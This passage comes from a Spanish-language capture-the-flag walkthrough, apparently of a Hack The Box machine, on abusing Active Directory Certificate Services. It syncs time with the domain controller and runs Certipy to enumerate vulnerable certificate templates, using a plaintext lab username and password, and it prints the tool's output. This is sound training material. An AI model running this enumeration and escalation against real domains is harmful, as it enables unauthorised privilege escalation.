 ### Abusing Active Directory Certificate Services (ADCS)

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.

Algunas de las posibles vulnerabilidades que puede tener ADCS son:

1. **Delegación de privilegios en la emisión de certificados**: Si ciertos usuarios tienen permisos para emitir certificados para otros, un atacante podría abusar de estos privilegios para obtener permisos elevados.
2. **Mala configuración en las plantillas de certificados**: Configuraciones incorrectas en las plantillas de certificados podrían permitir que un atacante solicite un certificado en nombre de otro usuario, incluso uno con privilegios elevados.
3. **NTLM Relaying en HTTP**: Si el ADCS acepta autenticación NTLM en lugar de Kerberos, un atacante podría redirigir las solicitudes para ganar acceso.

Lo primero de todo, para no tener problemas con el `DC`, sincronizaremos la hora de nuestro equipo con la del `DC` a través de `ntpdate`.

```bash
❯ sudo ntpdate -s 10.10.11.202
```

Ejecutamos `Certipy` con el usuario `sql_svc` para buscar plantillas vulnerables, pero no encontramos ninguna con permisos explotables. Probaremos más adelante con otro usuario para ver si hay alguna plantilla explotable.

```bash
❯ certipy-ad find -u 'sql_svc'@10.10.11.202 -p 'REGGIE1234ronnie' -dc-ip 10.10.11.202 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```